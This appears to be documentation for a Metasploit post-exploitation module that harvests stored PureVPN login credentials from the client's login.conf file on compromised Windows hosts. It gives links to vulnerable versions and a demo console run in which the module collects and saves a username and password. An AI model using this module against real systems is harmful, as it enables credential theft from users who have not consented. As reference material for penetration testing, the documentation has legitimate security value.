 # Introduction

This module allows you to collect login information for PureVPN client, specifically the `login.conf` file.

## Vulnerable Application

Versions before 6.0 should be vulnerable. For testing purposes, you may find the vulnerable version here:

* [https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m](https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m)
* [https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe](https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe)

## Options

**RPATH**

You may manually set the `RPATH` datastore option to allow the post module to find the installed
directory of PureVPN.

# Demo

```
msf5 post(windows/gather/credentials/purevpn_cred_collector) > rerun
[*] Reloading module...

[*] Searching PureVPN Client installation at C:\ProgramData
[*] Found PureVPN Client installation at C:\ProgramData
[*] Checking for login configuration at: C:\ProgramData\purevpn\config\
[*] Configuration file found: C:\ProgramData\purevpn\config\login.conf
[*] Found PureVPN login configuration on DESKTOP-AFMF2QU via session ID: 1
[+] Collected the following credentials:
[+]     Username: asfafsdas
[+]     Password: 23423423
[*] PureVPN credentials saved in: /Users/wchen/.msf4/loot/20181127162258_default_172.16.249.215_PureVPN.creds_515624.txt
[*] Post module execution completed
```
